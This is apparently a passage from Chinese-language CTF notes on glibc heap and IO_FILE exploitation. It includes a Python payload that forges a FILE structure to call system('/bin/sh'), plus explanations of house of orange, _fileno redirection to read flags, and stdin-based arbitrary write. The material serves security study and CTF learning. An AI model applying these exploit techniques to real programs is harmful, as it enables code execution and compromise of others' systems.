 ```python
new_size = libc_base + next(libc.search(b'/bin/sh'))
payload = p64(0xfbad2084)
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(0) # _IO_write_base
payload += p64(0xffffffffffffffff) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64((new_size - 100) // 2) # _IO_buf_end
payload += p64(0) * 4
payload += p64(libc_base + libc.sym["_IO_2_1_stdin_"])
payload += p64(1) + p64((1<<64) - 1)
payload += p64(0) + p64(libc_base + 0x3ed8c0) #lock
payload += p64((1<<64) - 1) + p64(0)
payload += p64(libc_base + 0x3eb8c0)
payload += p64(0) * 6
payload += p64(libc_base + get_IO_str_jumps_offset()) # _IO_str_jumps
payload += p64(libc_base + libc.sym["system"])
```

而在**`libc-2.28`及以后**，由于不再使用偏移找`_s._allocate_buffer`和`_s._free_buffer`，而是直接用`malloc`和`free`代替，所以`FSOP`也失效了。

<img src="D:\N0zoM1z0\CyberSpaceSecurity\Pwn\heap\CTF 中 glibc堆利用 及 IO_FILE 总结\images\image-20240719232712426.png" alt="image-20240719232712426" style="zoom:67%;" />

<img src="D:\N0zoM1z0\CyberSpaceSecurity\Pwn\heap\CTF 中 glibc堆利用 及 IO_FILE 总结\images\image-20240719232829675.png" alt="image-20240719232829675" style="zoom:67%;" />

### house of orange

利用`unsorted bin attack` 配合 `IO_FILE attack (FSOP)`进行攻击。
通过`unsorted bin attack`将`_IO_list_all`内容从`_IO_2_1_stderr_`改为`main_arena+88/96`（实则指向`top chunk`）。
而在`_IO_FILE_plus`结构体中，`_chain`的偏移为`0x68`，而`top chunk`之后为`0x8`单位的`last_remainder`，接下来为`unsorted bin`的`fd`与`bk`指针，共`0x10`大小，再之后为`small bin`中的指针（每个`small bin`有`fd`与`bk`指针，共`0x10`个单位），剩下`0x50`的单位，从`smallbin[0]`正好分配到`smallbin[4]`（准确说为其`fd`字段），大小就是从`0x20`到`0x60`，而`smallbin[4]`的`fd`字段中的内容为该链表中最靠近表头的`small bin`的地址 (`chunk header`)，因此`0x60`的`small bin`的地址即为`fake struct`的`_chain`中的内容，只需要控制该`0x60`的`small bin`（以及其下面某些堆块）中的部分内容，即可进行`FSOP`。

### IO_FILE attack 之 利用_fileno字段

`_fileno`的值就是**文件描述符**，位于`stdin`文件结构开头`0x70`偏移处，如：`stdin`的`fileno`为`0`，`stdout`的`fileno`为`1`，`stderr`的`fileno`为`2`。
在漏洞利用中，可以通过修改`stdin`的`_fileno`值来**重定位**需要读取的文件，本来为`0`的话，表示从标准输入中读取，修改为`3`则表示为从文件描述符为`3`的文件（已经`open`的文件）中读取，该利用在某些情况下可直接读取`flag`。

### IO_FILE attack 之 任意读写

1.利用`stdin`进行**任意写**

 

`scanf`，`fread`，`gets`等读入走`IO`指针（`read`不走）。
**大体流程**为：若`_IO_buf_base`为空，则调用`_IO_doallocbuf`去初始化输入缓冲区，然后判断输入缓冲区是否存在剩余数据，如果输入缓冲区有剩余数据（`_IO_read_end > _IO_read_ptr`）则将其**直接拷贝至目标地址**（不会对此时输入的数据进行读入），如果没有或不够，则调用`__underflow`函数**执行系统调用读取数据**（`SYS_read`）到输入缓冲区（从`_IO_buf_base`到`_IO_buf_end`，默认`0x400`，即将数据读到`_IO_buf_base`，读取`0x400`个字节），此时若实际读入了`n`个字节的数据，则`_IO_read_end = _IO_buf_base + n`（即`_IO_read_end`指向实际读入的最后一个字节的数据），之后再将输入缓冲区中的数据拷贝到目标地址。
这里需要注意的是，若输入缓冲区中没有剩余的数据，则每次读入数据进输入缓冲区，仅和`_IO_buf_base`与`_IO_buf_end`有关。
在将数据从输入缓冲区拷贝到目标地址的过程中，**需要满足所调用的读入函数的自身的限制条件**，例如：使用`scanf("%d",&a)`读入整数，则当在输入缓冲区中遇到了字符（或`scanf`的一些截断符）等不符合的情况，就会停止这个拷贝的过程。最终，`_IO_read_ptr`指向成功拷贝到目的地址中的最后一个字节数据在输入缓冲区中的地址。因此，若是遇到了不符合限制条件的情况而终止拷贝，则最终会使得`_IO_read_end > _IO_read_ptr`，即再下一次读入之前会被认定为输入缓冲区中仍有剩余数据，在此情况下，**很有可能不会进行此次读入**，或将输入缓冲区中剩余的数据拷贝到此次读入的目标地址，从而**导致读入的错误**。
`getchar()`和`IO_getc()`的作用是刷新`_IO_read_ptr`，每次调用，会从输入缓冲区读一个字节数据，即将`_IO_read_ptr++`。
相关源码：
